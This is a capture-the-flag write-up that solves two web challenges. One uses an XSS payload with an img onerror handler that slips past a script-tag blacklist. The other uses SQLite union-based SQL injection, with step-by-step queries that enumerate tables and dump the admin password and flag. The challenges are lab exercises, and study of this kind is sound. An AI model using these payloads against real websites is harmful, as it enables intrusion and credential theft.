 # 1. Choosy
Description:
Single solution doesn't works on all problems. One should try different solutions for different problem.

link: http://20.193.247.209:8333/

Solution:
+ XSS detected
+ ` <image src/onerror=alert(1)>` this input gives xss
+ <script> tag is blacklisted
+ final payload:`"'><img src=xxx:x \x09onerror=javascript:alert(1)>
+ Flag: shellctf{50oom3_P4yL0aDS_aM0ng_Maaa4nnY}

  
# 2. Extractor
  
  Description: We are under emergency. Enemy is ready with its nuclear weapon we need to activate our gaurds but chief who had password is dead. There is portal at URL below which holds key within super-user account, can you get the key and save us.
  link: http://20.125.142.38:8956/

  Solution:
  + An sql injection challenge
  + we are provided with login and register functionality.
  + When we simply inserted `' or 1=1 --+` we got the following informations dumped.<br>
   name: user<br>
   password: pass123<br>
  signature: nothing here<br>
  
 + From this we can understand that its a basic sql injection challenge.
 + So, now lets try to know how many columns are there in the database<br>
   query: `' union select 1,2,3,4 --+`<br>
   output: name:2<br>
           pass: 3<br>
          signature: 4<br>
+ Dump the sqlite version:<br>
  query:` ' union select 1,sqlite_version(),3,4 --+`<br>
  outptu: name: 3.27.2<br>
          pass:3<br>
          signature: 4<br>
  
 + Now we need to get the table names:<br>
   query: `' union select 1,group_concat(tbl_name),3,4 from sqlite_master where type='table' and tbl_name NOT LIKE 'sqlite_%' --+`<br>
   output: name: Admin, users<br>
            pass:3<br>
            signature: 4<br>
  
 + Column names of the table 'Admin':<br>
  query: `' union select 1,sql,3,4 from sqlite_master where type!='meta' and sql NOT NULL and name not like 'sqlite_%' --+`<br>
  output: name:CREATE TABLE Admins ( id INTEGER PRIMARY KEY AUTOINCREMENT, user TEXT NOT NULL, pass TEXT NOT NULL, content TEXT NOT NULL )
          pass: 3<br>
          signature: 4<br>
  
 +Now the values of the given columns: (user, pass,content)<br>
  query: `' union select 1, user,pass,content from Admins --+`<br>
  outptu: name: admin<br>
          pass: h4rd_to_gu355<br>
          signature: shellctf{Sql_1Nj3c7i0n_B45iC_XD}<br>
  
 + So, here we got the flag!
  
  

  

